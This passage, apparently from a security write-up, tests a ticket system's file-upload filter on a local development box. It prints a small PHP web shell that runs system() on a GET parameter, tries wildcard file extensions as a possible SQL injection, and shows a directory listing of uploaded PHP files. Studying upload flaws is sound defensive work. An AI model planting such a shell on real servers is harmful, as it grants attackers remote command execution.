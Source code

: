 ```
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
	<script>
		<?php
		$a = $_GET['a'];
		echo system($a);
	</script>	
</body>
</html>
```

That *shouldn't* work, because the HTML document doesn't have anywhere to print the data back the user. So the fact that it didn't is good, it shows that we aren't dealing with something crazy here.

We could try to do some SQL injection into the type parameter and try and get it to return more than one row, although it isn't using a LIKE it's using a direct comparsion `=`, let's try and see. Can't hurt. 

- `phpshell.*`
- `phpshell.%`

Both of them showed the same "Invalid File Extension" error, and neither one seemed to affect the database...

But it seems like the database doesn't care!! (I hadn't looked at the filesystem for a file)

```
vagrant@devspace:~$ ls -la /var/www/html/public_html/uploads/tickets/
total 72
drwxrwxr-x 1 vagrant www-data 4096 Feb 11 23:18 .
drwxrwxr-x 1 vagrant www-data 4096 Feb 11 20:03 ..
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 20:45 1e97f00e3806687afb1292346ff06e96.php
-rw-rw-r-- 1 vagrant www-data  147 Feb 11 23:18 41d27e3c8fba8179740c954447d996c5.%
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:53 446919b2f8502db87b60d7f191cd33e1.phtml
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:46 48e7323f811015d59395a96e51464fc6.php5
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:45 51ae33983c53e9b6eb67c1405d6073dc.php
-rw-rw-r-- 1 vagrant www-data 3821 Feb 11 20:16 5f7b0c5a5cc3173b5f92ed406c88b3da.md
-rw-rw-r-- 1 vagrant www-data  147 Feb 11 23:15 6fa9219d617968a7aa04ba1e067a5f7c.*
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:20 9f40f4d0870376408d34edc39180e2d1.php
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:46 a24f7659cc3a7e026842326fa4932e0c.php
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:38 b6079d21637a3d96ec8642d2e1347d55.php
-rw-rw-r-- 1 vagrant www-data   79 Feb 11 20:16 bb72ef5c282d31ebb2366a7e6a9ccf15.txt
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:57 c775e0a660c279717d604118f6fdd698.html
-rw-rw-r-- 1 vagrant www-data  147 Feb 11 23:05 d6c4cb8d8dcd2ebb0856d9272de4e828.html
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:55 e09f8223be0e2fe3abaafd76aca77e67.
-rw-rw-r-- 1 vagrant www-data   43 Feb 11 22:57 e675a786bb29f7b7f9ce0fafa504266b.php
-rw-rw-r-- 1 vagrant www-data  202 Feb 11 20:03 index.php
```

Recognise some of those filenames!? :) 

